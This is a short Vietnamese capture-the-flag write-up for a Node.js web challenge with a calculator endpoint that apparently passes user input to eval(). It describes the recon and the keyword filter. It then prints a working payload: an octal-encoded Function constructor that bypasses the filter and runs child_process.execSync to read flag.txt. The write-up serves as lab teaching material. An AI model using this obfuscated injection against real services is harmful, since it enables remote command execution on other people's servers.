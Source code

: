 # Description
- Author: dcthinh
- Type: blackbox

# Recon
- Dựa vào challenge description thì mình thấy rằng khi truy cập vào web, ta có thể thực hiện các phép toán cơ bản ở endpoint *exec* với tham số là *q*.
- Khi thử thực thi các đoạn mã javascript như require hay exec thì web trả về message thông báo đại loại kiểu *Are you hacking?* nên mình khá chắc rằng phía server đang thực thi input người dùng bằng một hàm thực thi như eval()
- Mình tiếp tục fuzz bằng cách dùng keyword *import* được encode thành octal (mục tiêu là import được một module gì đó như là *child_process*). Khi này thì server trả về lỗi *Cannot use import statement outside a module*. Lỗi này xuất hiện do phía server dùng NodeJS làm backend (CommonJS), trong khi import chỉ nên được dùng khi mã JS được viểt ở định dạng ECMAScript.
- Sau một lúc fuzz nữa thì em chắc chắn rằng phía server dùng hàm eval() để thực thi nên em thực hiện exploit bằng *Function* object như sau:
  ```
  Function("return \160\162\157\143\145\163\163\056\155\141\151\156\115\157\144\165\154\145\056\162\145\161\165\151\162\145\050\047\143\150\151\154\144\137\160\162\157\143\145\163\163\047\051\056\145\170\145\143\123\171\156\143\050\047\143\141\164\040\146\154\141\147\056\164\170\164\047\051")();
  ```
- Đoạn octal code thực thi câu lệnh: *process.mainModule.require('child_process').execSync('cat flag.txt')*
- Flag: W1{hehehe}
